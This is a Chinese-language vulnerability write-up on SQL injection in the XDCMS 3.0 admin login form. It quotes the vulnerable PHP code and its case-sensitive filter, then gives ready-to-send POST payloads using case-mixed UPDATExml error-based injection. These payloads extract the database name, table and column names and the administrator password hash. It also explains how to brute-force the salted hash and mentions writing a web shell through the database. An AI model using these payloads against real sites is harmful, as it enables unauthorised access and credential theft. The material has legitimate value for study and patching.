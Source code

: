 ```yaml
---
title: "XDCMS 3.0 后台登录窗sql注入漏洞"
id: zhfly3280
---
```


# XDCMS 3.0 后台登录窗sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

XDCMS 3.0

## 三、复现过程

漏洞链

```
system/modules/xdcms/login.php
public function check(){

```
 $username = safe_html($_POST['username']);
	$password = safe_html($_POST['password']);
	$verifycode = safe_html($_POST['verifycode']);

	if(empty($username)||empty($password)){
		showmsg(C('user_pass_empty'),'-1');
	}

	if($verifycode!=$_SESSION['code']){
		showmsg(C('verifycode_error'),'-1');
	}

	$sql="select * from ".DB_PRE."admin where `username`='$username'";
	if($this-&gt;mysql-&gt;num_rows($sql)==0){
		showmsg(C('user_not_exist'),'-1');
	}

	$rs=$this-&gt;mysql-&gt;get_one($sql);
	$password=password($password,$rs['encrypt']);
	if($password!=$rs['password']){
		showmsg(C('password_error'),'-1');
	}

	if($rs['is_lock']==1){
		showmsg(C('user_lock'),'-1');
	}

	$logins=$rs["logins"]+1;
	$ip=safe_replace(safe_html(getip()));
	$this-&gt;mysql-&gt;db_update("admin","`last_ip`='".$ip."',`last_time`=".datetime().",`logins`=".$logins,"`username`='$username'");

	$_SESSION['admin']=$rs['username'];
	$_SESSION['admin_id']=$rs['id'];
	$_SESSION['groupid']=$rs['groupid'];
	unset($rs);
	showmsg(C("login_success"),"index.php?m=xdcms&amp;c=index");
} 
``` `safe_html()

function safe_html($str){

if(empty($str)){return;}

$str=preg_replace(’/select|insert | update | and | in | on | left | joins | delete |%|=|/*|*|../|./| union | from | where | group | into |load_file

|outfile/’,’’,$str);

return htmlspecialchars($str);

}` 
```

safe_html()使用preg_replace()时候，pattern未添加/i修饰符，导致过滤字符可通过大小写转换或双写进行绕过；

同时，htmlspecialchars()未添加参数，默认仅对双引号进行转义

**payload**

```
#爆库
username=admin%27+OR+UPDATExml(1,concat('~',(database())),0)--+&password=123&verifycode=3bdd&button=
#爆表名
username=admin%27+OR+UPDATExml(1,concat('~',(SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms')),0)--+&password=123&verifycode=3bdd&button=
//updatexml一次显示32位字符，需要偏转
username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms'),30,30)),0)--+&password=123&verifycode=3bdd&button=
#爆表名
username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(column_name)+frOm+information_scheMA.columns+whEre+table_name+like+'c_admin'),1,32)),0)--+&password=123&verifycode=3bdd&button=
#爆内容
username=admin%27+OR+UPDATExml(1,concat(0x7e,(selEct+password+From+c_admin)),0)--+&password=123&verifycode=3bdd&button= 
```

![image](../img/d811cbbb18eadcd43fb9163e9586ef14.png)

虽然获取密码hash值，但cms并未直接通过MD5获得哈希值，且无法破解该哈希值；

通过SQL注入获取到账户encrypt，再使用密码字典，依次爆破来猜测明文密码；另外可通过数据库写shell，但此时`secure_file_priv`被禁用

```
function password($password, $encrypt='') {
	$pwd = array();
	$pwd['encrypt'] =  $encrypt ? $encrypt : get_random();
	$password_md5=md5(trim($password));
	$nums=strlen($password_md5) - strlen($pwd['encrypt']);//encrypt:lr24vx2
	$pwd['password'] = md5(substr_replace($password_md5,$pwd['encrypt'],$nums));
	return $encrypt ? $pwd['password'] : $pwd;
} 
```